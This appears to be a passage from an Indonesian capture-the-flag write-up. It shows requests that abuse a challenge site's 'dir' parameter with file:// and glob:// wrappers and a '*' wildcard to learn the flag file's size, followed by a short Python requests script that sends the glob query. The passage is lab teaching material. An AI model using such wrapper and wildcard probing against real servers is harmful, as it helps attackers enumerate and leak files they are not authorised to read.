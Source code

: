 `requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/flag
```
`response`
```
Blank Pages no error
```

`requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/flag*
```
`response`
```
39
```

`Woaaah i get it`, ternyata isi dari file flag berukuran `39 byte`.

Tanda `*` (bintang) dalam pencarian umumnya digunakan sebagai wildcard atau karakter pengganti.

Ketika menggunakan tanda * dalam pencarian, maka karakter tersebut akan dianggap sebagai pengganti dari satu atau lebih karakter apa pun. Sehingga, apapun karakter yang berada di tempat tanda * tersebut, akan dicocokkan dengan semua karakter yang sesuai dalam pencarian.

Contohnya, jika kita ingin mencari semua file yang berakhiran `.txt` dalam sebuah direktori, kita bisa menggunakan perintah `ls *.txt.` Pada contoh ini, tanda `*` berfungsi sebagai wildcard yang digunakan untuk menggantikan karakter apa pun yang ada di awal nama file dan menemukan semua file yang berakhiran `.txt` atau bisa saja kita simulasikan dengan soal yang diberikan `ls flag*` 

```bash
noob@codes:~$ ls flag*
-rw-rw-r-- 1 noob noob 39 Mar  24 11:39 flag.txt

```

Seperti yang sudah dijelaskan pada `Analisis soal` diatas, soal tersebut memaksa kita untuk melakukan brute force karakter pada file flag. untuk kita mencoba mendapatkan flag tersebut dengan `glob://` 

Sebelum kita pastikan dulu dengan menggunakan python untuk mengakses soal yang diberikan


```python
import requests

url = "http://ctf.iluv.my.id:9999/"

noob = requests.get(
	url,
	params={
		"dir":"glob:///tmp/chall/flag*"
	},
)
print(noob.text)
```
```bash
noob@codes:~$ python chall.py
39

```
<a id="codespr1340"></a>

